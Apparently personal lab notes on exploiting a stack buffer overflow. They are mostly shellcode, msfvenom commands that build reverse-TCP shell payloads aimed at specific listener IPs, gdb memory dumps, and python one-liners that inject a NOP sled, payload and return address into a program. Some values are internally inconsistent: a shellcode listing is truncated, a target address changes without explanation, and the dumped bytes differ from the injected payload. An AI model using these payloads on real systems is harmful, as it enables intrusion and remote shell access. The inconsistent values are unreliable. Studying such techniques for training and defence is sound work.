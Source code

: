 
#### Using shell code

We want to put code in memory and then redirect execution to this memory.

We use a number of nop instructions to make the address of the exploit easier to get to. If we have 30 nops all addresses within these will lead execution to the shell code.

Structure of the input:
`python -c "print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)"`

Example:
`python -c "print('\x90'*30+'\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05'+'\x41'*60+'\xef\xbe\xad\xde')" | ./program`


#### Example shell code

Shell code that opens a basic shell (source THM) (useful if SUID is set)
```
\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3
```
28 bytes

The shell code disassembled using r2, commands aaa and then pdf:
![[../Images/Pasted image 20240809204245.png]]
<font size=2>A string containing the path to /bin/sh + 0x11 (random extra byte) is put in the RCX registry.<br>
To get rid of the extra 0x11 rcx is first shifted one byte to the left and then to the right.<br>
RCX is then pushed onto the stack.<br>
Other requirements for the syscall (execve) to exectue the path are prepared and then the syscall is made.</font>

#### Generate shell code

`msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>`

`msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"`

`msfvenom -p linux/x86/shell_reverse_tcp lhost=10.10.14.245 lport=443 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"`

`msfvenom --payload 'windows/shell_reverse_tcp' LHOST=10.21.31.111 LPORT=443 --format 'python' --bad-chars '\x00\x0a'`

```sh
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x86/shell_reverse_tcp lhost=10.10.14.245 lport=443 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"                
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] = 
"\xd9\xc3\xba\xaa\xca\x9c\x9b\xd9\x74\x24\xf4\x58\x2b\xc9"
"\xb1\x12\x83\xc0\x04\x31\x50\x13\x03\xfa\xd9\x7e\x6e\xcb"
"\x06\x89\x72\x78\xfa\x25\x1f\x7c\x75\x28\x6f\xe6\x48\x2b"
"\x03\xbf\xe2\x13\xe9\xbf\x4a\x15\x08\xd7\x46\xef\xe4\xd2"
"\x3f\xed\xf8\x1d\x7b\x78\x19\xad\x1d\x2b\x8b\x9e\x52\xc8"
"\xa2\xc1\x58\x4f\xe6\x69\x0d\x7f\x74\x01\xb9\x50\x55\xb3"
"\x50\x26\x4a\x61\xf0\xb1\x6c\x35\xfd\x0c\xee";
```

Shellcode: 
```
\xd9\xc3\xba\xaa\xca\x9c\x9b\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x12\x83\xc0\x04\x31\x50\x13\x03\xfa\xd9\x7e\x6e\xcb\x06\x89\x72\x78\xfa\x25\x1f\x7c\x75\x28\x6f\xe6\x48\x2b\x03\xbf\xe2\x13\xe9\xbf\x4a\x15\x08\xd7\x46\xef\xe4\xd2\x3f\xed\xf8\x1d\x7b\x78\x19\xad\x1d\x2b\x8b\x9e\x52\xc8\xa2\xc1\x58\x4f\xe6\x69\x0d\x7f\x74\x01\xb9\x50\x55\xb3\x50\x26\x4a\x61\xf0\xb1\x6c\x35\xfd\x0c\xee
```

Number of bytes: 95

<font color="yellow">Add 16 or more nops</font> - When the payload in decoded/unpacked it will take more space.

#### Find the execution start address

the position returned by pattern_offset.rb = 2060
a random number of nops = 256
the number of bytes in the payload = 95
32-bit executable gives a 32-bit address = 4 bytes

```sh
run $(python -c 'print "\x55" * (2060 - 256 - 95) + "\x90" * 256 + "\xd9\xc3\xba\xaa\xca\x9c\x9b\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x12\x83\xc0\x04\x31\x50\x13\x03\xfa\xd9\x7e\x6e\xcb\x06\x89\x72\x78\xfa\x25\x1f\x7c\x75\x28\x6f\xe6\x48\x2b\x03\xbf\xe2\x13\xe9\xbf\x4a\x15\x08\xd7\x46\xef\xe4\xd2\x3f\xed\xf8\x1d\x7b\x78\x19\xad\x1d\x2b\x8b\x9e\x52\xc8\xa2\xc1\x58\x4f\xe6\x69\x0d\x7f\x74\x01\xb9\x50\x55\xb3\x50\x26\x4a\x61\xf0\xb1\x6c\x35\xfd\x0c\xee" + "\x66" * 4')
```

Afterwards we confirm that it's been entered  into memory in the format we supplied with python.

```sh
(gdb) x/2000xb $esp+2200

0xffffd6b1:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd6b9:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd6c1:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd6c9:     0x55    0x90    0x90    0x90    0x90    0x90    0x90    0x90  Nops
0xffffd6d1:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6d9:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6e1:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6e9:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6f1:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6f9:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd701:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd709:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd711:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd719:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd721:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd729:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd731:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd739:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd741:     0x90    0x90    0x90    0x90    0x90    0xbd    0xca    0x92  Shell code
0xffffd749:     0xd0    0xf7    0xdb    0xcd    0xd9    0x74    0x24    0xf4
0xffffd751:     0x5b    0x31    0xc9    0xb1    0x12    0x83    0xc3    0x04
0xffffd759:     0x31    0x6b    0x0e    0x03    0xa1    0x9c    0x32    0x02
0xffffd761:     0x04    0x7a    0x45    0x0e    0x35    0x3f    0xf9    0xbb
0xffffd769:     0xbb    0x36    0x1c    0x8b    0xdd    0x85    0x5f    0x7f
0xffffd771:     0x78    0xa6    0x5f    0x4d    0xfa    0x8f    0xe6    0xb4
0xffffd779:     0x92    0x70    0x19    0x47    0x63    0xe7    0x1b    0x47
0xffffd781:     0x19    0x9e    0x92    0xa6    0x6d    0x06    0xf5    0x79
0xffffd789:     0xde    0x74    0xf6    0xf0    0x01    0xb7    0x79    0x50
0xffffd791:     0xa9    0x26    0x55    0x26    0x41    0xdf    0x86    0xe7
0xffffd799:     0xf3    0x76    0x50    0x14    0xa1    0xdb    0xeb    0x3a
0xffffd7a1:     0xf5    0xd7    0x26    0x3c    0x66    0x66    0x66    0x66  66666666 repersents the spot where the instruction pointer will be restored from
```

We select an address in the middle of out nops, `0xffffd731`, as our start address.

Remember the endianness and reverse the address when adding it to the python:
0xffffcc90
```sh
run $(python -c 'print "\x55" * (2060 - 256 - 95) + "\x90" * 256 + "\xd9\xc3\xba\xaa\xca\x9c\x9b\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x12\x83\xc0\x04\x31\x50\x13\x03\xfa\xd9\x7e\x6e\xcb\x06\x89\x72\x78\xfa\x25\x1f\x7c\x75\x28\x6f\xe6\x48\x2b\x03\xbf\xe2\x13\xe9\xbf\x4a\x15\x08\xd7\x46\xef\xe4\xd2\x3f\xed\xf8\x1d\x7b\x78\x19\xad\x1d\x2b\x8b\x9e\x52\xc8\xa2\xc1\x58\x4f\xe6\x69\x0d\x7f\x74\x01\xb9\x50\x55\xb3\x50\x26\x4a\x61\xf0\xb1\x6c\x35\xfd\x0c\xee" + "\x31\xd7\xff\xff"')
```

Now our shellcode will hopefully be run!
